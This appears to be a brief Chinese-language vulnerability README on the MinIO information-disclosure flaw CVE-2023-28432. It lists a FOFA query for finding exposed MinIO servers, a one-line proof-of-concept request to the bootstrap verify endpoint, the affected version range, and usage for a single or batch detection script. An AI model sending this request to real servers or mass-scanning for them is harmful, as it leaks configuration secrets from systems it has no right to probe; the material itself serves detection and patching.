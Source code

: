 # MinIO云存储信息泄露漏洞 CVE-2023-28432
## 资产收集
fofa：`app="minio"`
![](img/logo.png)
## POC
```
POST /minio/bootstrap/v1/verify HTTP/1.1
```
## 影响版本
MinIO 2019-12-17T23-16-33Z <= MinIO < 2023-03-20T20-16-18Z
## 检测脚本
[minio_unauthcheck.py](file/minio_unauthcheck.py)  
单个：`python3  minio_unauthcheck.py -u`  
批量：`python3 minio_unauthcheck.py -f url.txt`